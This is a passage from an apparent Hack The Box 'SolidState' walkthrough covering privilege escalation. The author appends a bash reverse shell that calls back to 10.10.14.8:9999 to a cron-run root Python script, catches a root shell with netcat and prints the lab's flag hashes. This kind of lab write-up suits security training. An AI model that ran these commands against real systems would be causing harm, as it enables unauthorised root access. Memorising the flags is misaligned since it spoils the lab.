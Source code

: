 Lets use `pspy` to check if `tmp.py` is being executed on the system.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget http://10.10.14.8/pspy32
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ chmod +x pspy32
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32 
...
2022/05/09 04:03:01 CMD: UID=0    PID=1716   | /bin/sh -c python /opt/tmp.py 
2022/05/09 04:03:01 CMD: UID=0    PID=1717   | python /opt/tmp.py 
2022/05/09 04:03:01 CMD: UID=0    PID=1719   | rm -r /tmp/* 
2022/05/09 04:03:01 CMD: UID=0    PID=1718   | sh -c rm -r /tmp/*  
2022/05/09 04:04:06 CMD: UID=0    PID=1720   | (anacron)  
2022/05/09 04:04:06 CMD: UID=0    PID=1721   | /lib/systemd/systemd-cgroups-agent /system.slice/anacron.service 
2022/05/09 04:04:06 CMD: UID=0    PID=1722   | 
2022/05/09 04:06:01 CMD: UID=0    PID=1723   | /usr/sbin/CRON -f 
2022/05/09 04:06:01 CMD: UID=0    PID=1725   | python /opt/tmp.py 
2022/05/09 04:06:01 CMD: UID=0    PID=1724   | /bin/sh -c python /opt/tmp.py 
2022/05/09 04:06:01 CMD: UID=0    PID=1726   | sh -c rm -r /tmp/*  
...
```

It looks like the `tmp.py` script is executed by root every 3 minutes! We can add a reverse shell code at the end of the file!

```bash
- Local machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# cat py_revshell  
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.8/9999 <&1'")

- mindy's SSH -
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ curl http://10.10.14.8/py_revshell >> tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.8/9999 <&1'")
```

Finally, we start a netcat listener and wait for the `tmp.py` script to be executed.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# nc -nlvp 9999                                                              
listening on [any] 9999 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.51] 40852
...
root@solidstate:~# whoami
root
root@solidstate:~# cat /root/root.txt
4f4afb55463c3bc79ab1e906b074953d
root@solidstate:~# cat /home/mindy/user.txt
0510e71c2e8c9cb333b36a38080d0dc2
```

